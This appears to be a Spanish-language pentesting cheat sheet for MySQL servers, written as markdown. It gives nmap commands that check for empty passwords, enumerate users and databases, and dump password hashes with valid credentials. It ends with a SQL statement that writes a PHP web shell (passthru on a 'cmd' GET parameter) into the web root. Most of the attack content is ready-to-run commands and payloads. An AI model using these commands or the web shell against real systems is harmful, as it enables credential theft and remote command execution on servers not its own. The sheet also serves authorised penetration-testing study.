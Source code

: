# MySQL
Servicio de bases de datos SQL usualmente en el puerto 3306
## Enumeración
### Check Empty Password
```nmap
nmap --script=mysql-empty-password -p 3306 IP
```	
## Interacción con el servidor
### Enumeración de usuarios mediante nmap (Authenticated)
```
nmap --script=mysql-users --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```	
### Obtención del database schema usando nmap (Authenticated)
```
nmap --script=mysql-databases --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```
### Obtención de hashes usando nmap (Authenticated)
```
nmap --script mysql-dump-hashes --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```		
## Vulnerabilidades comunes sin metasploit
### Pasar de SQL a una  webshell
```SQL
SELECT '<?php echo passthru($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
